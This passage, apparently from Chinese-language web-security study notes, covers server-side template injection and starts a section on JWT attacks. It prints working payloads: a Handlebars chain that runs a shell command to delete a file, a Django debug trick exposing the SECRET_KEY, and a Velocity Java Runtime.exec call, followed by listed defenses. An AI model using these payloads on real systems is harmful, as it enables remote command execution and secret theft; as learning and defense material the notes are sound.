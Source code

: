 ```js
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

5. **Django python**

{% debug %} 返回可以接触到的所有的对象，然后发现settings可以访问

{{settings.SECRET_KEY}} 返回内容

6. **Velocity java**

利用所可以访问得到的模版类，来构造工具链，执行命令注入

```java
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```



防范方法：

1. 尽量不要让用户修改或是上传新的模版，或是对用户的输入进行过滤
2. 使用无逻辑的模版引擎，单纯的使用数据
3. 可以使用沙箱执行，并且沙箱在容器执行
4. <font color=red>不要在网页回显任何的错误，对后端的报错做处理，开发模式和生产模式要分开！！很通用</font>



宝藏🏴‍☠️连接🔗：https://swisskyrepo.github.io/PayloadsAllTheThings/





### JWT 攻击 (Json Web Tokens)



JWT是常见的身份令牌之一，它有两种格式一种是JWS也就是我们所讨论和利用的，另外一种是JWE，它是在JWS的基础上，使用的密钥加密，这种虽然更安全，但是实现起来也比较复杂，开销大，我们所关注的是JWS。

JWT有三个部分组成,每个部分由小数点.连接： 
